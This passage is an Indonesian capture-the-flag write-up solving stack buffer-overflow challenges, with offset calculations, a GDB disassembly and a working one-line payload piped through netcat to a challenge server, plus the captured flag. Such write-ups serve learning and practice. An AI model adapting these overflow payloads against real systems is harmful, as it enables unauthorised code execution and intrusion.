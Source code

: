 Program ini menggunakan ```gets``` untuk mengambil inputan yang diberi ukuran sebesar ```0x8c```. Tujuan kita disini adalah memanggil ```system``` tapi ada syarat yang harus dipenuhi dulu yaitu pada alamat ```ebp-0xc``` harus bernilai ```0x13377331```.
Kalkulasi : ```0x8c - 0xc = 0x80 (128 dalam desimal) dan little endian dari 0x13377331 = \x31\x73\x37\x13```
Langsung saja wkwk..

Command : ```python -c 'print "A"*128 + "\x31\x73\x37\x13"' | nc asgama.web.id 40203```

Result : 
```bash
$ python -c 'print "A"*128 + "\x31\x73\x37\x13"' | nc asgama.web.id 40203
GamaCTF{BufF3rR__0vErf10W__EZ}
```
Flag : ```GamaCTF{BufF3rR__0vErf10W__EZ}```

## Buffer2 [75 pts]

Diberikan File ELF 32-bit not stripped dan service ```nc asgama.web.id 40202```

Command : ```file buf2```
```bash
$ file buf2 
buf2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=422a2c2391911b03f182ed6a8a2b65ca200f276c, not stripped
```
Oke, langsung lihat disassemble fungsi ```main``` dengan GDB+Peda.

Fungsi ```main```:
```bash
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x0804855d <+0>:	lea    ecx,[esp+0x4]
   0x08048561 <+4>:	and    esp,0xfffffff0
   0x08048564 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048567 <+10>:	push   ebp
   0x08048568 <+11>:	mov    ebp,esp
   0x0804856a <+13>:	push   ecx
   0x0804856b <+14>:	sub    esp,0x4
   0x0804856e <+17>:	call   0x8048545 <hah>
   0x08048573 <+22>:	sub    esp,0xc
   0x08048576 <+25>:	push   0x8048623
   0x0804857b <+30>:	call   0x80483a0 <puts@plt>
   0x08048580 <+35>:	add    esp,0x10
   0x08048583 <+38>:	mov    eax,0x0
   0x08048588 <+43>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804858b <+46>:	leave  
   0x0804858c <+47>:	lea    esp,[ecx-0x4]
   0x0804858f <+50>:	ret    
End of assembler dump. 
```
Ternyata fungsi ```main``` memanggil fungsi ```hah``` yang menggunakan ```gets``` untuk mengambil inputan, sedangkan ```gets``` sendiri memiliki vulnerable yang sangat berbahaya, sehingga kita bisa mengubah return address ke fungsi tujuan kita untuk mendapat flag.
